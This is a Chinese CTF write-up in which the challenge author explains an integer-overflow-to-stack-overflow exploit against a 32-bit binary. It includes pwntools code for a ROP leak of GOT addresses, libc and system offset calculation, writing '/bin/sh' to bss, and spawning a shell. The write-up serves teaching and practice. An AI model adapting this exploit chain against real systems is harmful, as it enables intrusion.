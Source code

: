 ## Preface

(╯‵□′)╯︵┻━┻。为什么会这样呢，明明是我先出的题，都没有人做。


## checksec

检查发现是32bit程序，有NX，没有canary

## Vuln

1. 仔细分析程序，可以发现有整数溢出
2. 整数溢出之后可以构成栈溢出


## Leak
在输入负数之后，我们可以输入很打的字符串，从而造成栈溢出
### rop

再构成溢出之后采用rop的方式泄露栈地址<br>
可以找libc_csu_init等rop(用ropper找很方便)


```Python
def ro_gadget(func, arg1, arg2, arg3, ret_addr):
    payload = p32(func)
    payload += p32(pops_addr)
    payload += p32(arg1)
    payload += p32(arg2)
    payload += p32(arg3)
    payload += p32(ret_addr)*4
    payload += p32(pops_addr)
    payload += p32(ret_addr)*7
    payload += p32(ret_addr)
    return payload
```

写了一个方便leak的函数<br>
```Python

def leak(address):
    io.recvuntil("bytes you need")
    io.sendline(str(-1))
    io.recvuntil("Leave your code for the first time :)")
    payload = padding
    payload += ro_gadget(elf.plt['write'], 1, address, 40, vuln_addr)
    io.sendline(payload)
    io.recvuntil("the TE!\n")
    data = io.recv(4)
    return data
```
改函数最后返回到main函数，方便之后可以再利用一次

## exp
写exp有很多方法，如virtualprotect或者mmap来过NX，或者直接rop system执行shell<br>
这里只用的rop system

### calculate system

计算很简单，libc给了(如果没有给libc，可以利用pwntools的dynelf或者字节写leak来泄露需要的函数地址)<br>
```Python
read_addr = u32(leak(elf.got['read']))
print 'read address:', hex(read_addr)
libc_addr = read_addr - 0xD5980
print 'libc address:', hex(libc_addr)
system_addr = libc_addr + 0x3ADA0
print 'system address:', hex(system_addr)
```

### write "/bin/sh"
想要调用类似system("/bin/sh")这样的rop，还需要找一个地址有"/bin/sh"这样的字符串，当然直接再libc找是可以的。<br>
这里采用调用read函数把字符串写入bss段，然后直接指定写进的地址即可。<br>

```Python
io.sendline(str(-1))
io.recvuntil("Leave your code for the first time :)")
payload = padding
payload += ro_gadget(elf.plt['read'], 0, bss_w_addr, 8, vuln_addr)
raw_input("got?")
io.sendline(payload)
io.recvuntil("the TE!\n")
io.send('/bin/sh\x00')
```
至此即可写入了 "/bin/sh"

### system
system的地址之前已经计算了，而且这个时候binsh也写如了bss段，直接一个rop即可

```Python
payload = padding
payload += p32(system_addr)
payload += p32(vuln_addr)
payload += p32(bss_w_addr)
io.recvuntil("bytes you need")
io.sendline(str(-1))
io.recvuntil("Leave your code for the first time :)")
io.sendline(payload)
io.interactive()
```

## Summary

主要考察一个整数溢出漏洞<br>
其次是基础的rop的编写(32bit，64bit的类似)<br>

本来预计这个题有人做出来的，，/(ㄒoㄒ)/~~，没想到没一个人做。。顺便吐槽一下，为啥我出的题都没有人做出来，(╯‵□′)╯︵┻━┻。
